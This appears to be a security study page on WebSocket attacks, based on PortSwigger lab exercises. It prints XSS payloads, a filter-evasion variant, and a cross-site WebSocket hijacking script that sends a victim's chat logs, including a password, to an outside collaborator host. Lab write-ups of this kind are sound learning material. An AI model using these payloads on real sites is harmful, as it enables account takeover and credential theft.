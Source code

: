 # WebSockets

{% hint style="info" %}
A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.
{% endhint %}

## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

```javascript
<img scr=x onerror=alert()>;
```

<figure><img src="../.gitbook/assets/web_websockets_1.png" alt=""><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><img src="../.gitbook/assets/web_websockets_2.png" alt="" width="563"><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><img src="../.gitbook/assets/web_websockets_3.png" alt=""><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).

{% code overflow="wrap" %}
```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/web_websockets_4.png" alt=""><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

### Blacklisted IPs

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

In an effort to replicate our [XXS via WebSockets](websockets.md#xxs-via-websockets) attack process, we get our IP address blacklisted (Figure 6).

```javascript
<img src=x onerror=alert()>;
```

<figure><img src="../.gitbook/assets/web_websockets_5.png" alt=""><figcaption><p>Figure 6: Sending an XSS payload gets our IP address blocked.</p></figcaption></figure>

We can try different [IP-tracking HTTP headers](authentication/rate-limiting.md) to bypass this filter and send a slightly obfuscated payload instead (Figure 7).

```javascript
<img scr=x oNeRroR=alert`1`>
```

<figure><img src="../.gitbook/assets/web_websockets_6.png" alt=""><figcaption><p>Figure 7: Bypassing the server's filters.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript
